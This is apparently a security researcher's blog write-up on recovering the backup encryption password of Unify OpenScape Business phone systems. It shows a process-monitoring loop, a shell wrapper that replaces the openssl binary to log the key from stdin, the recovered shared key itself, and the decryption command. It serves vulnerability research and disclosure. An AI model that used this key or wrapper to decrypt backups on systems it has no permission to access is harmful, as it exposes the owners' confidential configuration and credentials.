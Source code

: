 ```yaml
---
title: "Unify OSBiz Backup Pass"
date: 2022-02-11T21:44:23+01:00
draft: false
tags:
- Unify
- OSBiz
- Pentest
---
```


I set myself a challenge te retrieve the password that is used in the Openscape Business Software since V2R4 (if I remember correctly), according to Unify the backup tar file is encrypted with openssl and using aes-256-cbc.
How did I started this?
1. Install a Openscape Business S server in VMWare player.
2. Start looking to find how the backup process is started / creating the backup file.
3. Try to retrieve the key.

&nbsp;
### Hunting for the executed command
I used following one-liner to determine all the running processes every 1 sec. and dump it to a file for analyse.
```bash
while true; do ps auxw >> ps.txt; date >> ps.txt; sleep 1; done
```

After exploring the ps.txt file, we found following interresting line:
```
root      8999 92.6  0.1  16020  4332 ?        RN   14:47   0:00 openssl enc -aes-256-cbc -e -salt -in /mnt/persistent/backup/tmp/full.tar -out /mnt/persistent/backup/tmp/BackupSet_200103-144606.tar -pass stdin
```
As you can see, openssl is used and the key is passed with STDIN.

After digging some deeper in the binaries from the OSBiz sytem, we could easily find this also by using this command:
```bash
OSbizS:~ # strings /opt/backup/bin/backup | grep openssl
openssl enc -aes-256-cbc -e -salt -in %s -out %s -pass stdin
openssl enc -aes-256-cbc -d  -in %s -out %s -pass stdin > /dev/null 2>/mnt/persistent/backup/tmp/openssl.error
```

&nbsp;
### Retrieving the key
I was searching for a way to intercept the key that the openssl process was accepting from STDIN. I did first try to dump the memory, but the key was passed as '*******'. After a while I realised we should log all STDIN and STDOUT signals to the openssl binary by using a kind of MitM attack on the openssl binary.

It's easy, create a batch script and make it excecutable. Then rename the original /usr/bin/openssl to /usr/bin/openssl.orig and place our script in /usr/bin directory. Important: make sure to give it the name **openssl** (like the original binary).
```bash
#!/bin/bash
cat - | tee /tmp/in.log | /usr/bin/openssl.orig $@ | tee /tmp/out.log
```

When the backup proces is started it will call /usr/bin/openssl (our script). Our script will intercept and log all STDIN and STDOUT signals to files in /tmp but it'll also pass it to the "real" openssl binary (openssl.orig).
When te backup process is completed we can see the key that is used:
```bash
OSbizS:~ # cat /tmp/in.log
cyaMPFR:LVCHTxaUJ2DJzP97HSvdu6yk
```

&nbsp;
### Decrypting the tar file
To be able to decrypt the tar file you need to have the exact same openssl version that the Openscape Business System is using (our use the SLES linux itself of course).
```bash
OSbizS:~ # openssl version
OpenSSL 1.0.2p-fips  14 Aug 2018
```

To decrypt the tar file, run following command (it'll ask for the password):
```bash
openssl enc -aes-256-cbc -d -in BackupProtected.tar -out BackupFull.tar
```
**Note**: This will also work on the X-variant systems, they all use the same key and openssl version.

&nbsp;
### Automate the attack
You can use my bash script to automate this (it'll restore the original openssl binary), it's located at [https://github.com/braam/unify/blob/master/Backup_Pass/get_backup_pass_osbiz.sh](https://github.com/braam/unify/blob/master/Backup_Pass/get_backup_pass_osbiz.sh)
